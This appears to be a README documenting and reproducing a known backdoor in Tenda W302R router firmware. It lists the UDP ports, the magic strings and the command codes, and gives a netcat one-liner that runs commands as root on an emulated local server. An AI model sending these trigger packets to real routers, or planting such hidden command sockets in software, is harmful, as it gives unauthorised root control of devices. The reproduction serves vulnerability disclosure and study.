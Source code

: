 # Tenda W302R backdoor
- **Type**: hidden command, hardcoded credentials
- **Affected versions**: 3.1.192 - 3.1.202


## Backdoor
he backdoor is found in the executable `/bin/httpd` in the firmware. It is an HTTP server that
seems to be based on [GoAhead](https://www.embedthis.com/goahead/) v2.1.8. The server itself starts
a separate thread, creating a UDP socket bound to port 7329 or 24151 (depending on the router
model). That socket listens for incoming packets starting with the magic string `"w302r_mfg"` or
`"rlink_mfg"` (depending on the router model), and then interprets the rest of the packet as a
command:
- `0x65`: ping the backdoor socket
- `0x31`: run an `iwpriv` command
- `0x78`: run any command as root


## Triggering the backdoor
First, we need to copy the file used as a stand-in for the actual NVRAM to `/tmp`:
```console
$ cp ./original/vendors/Ralink/RT3052/RT2860_default_vlan /tmp/
```
Then, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/user/goahead/src/goahead
```
In a separate terminal, we can trigger the backdoor (e.g., to run `id` as root):
```console
$ echo -en "rlink_mfg x /bin/id" | nc -u localhost 24151
uid=0(root) gid=0(root) groups=0(root)
```


## Reference
<https://web.archive.org/web/20131020145741/http://www.devttys0.com/2013/10/from-china-with-love>
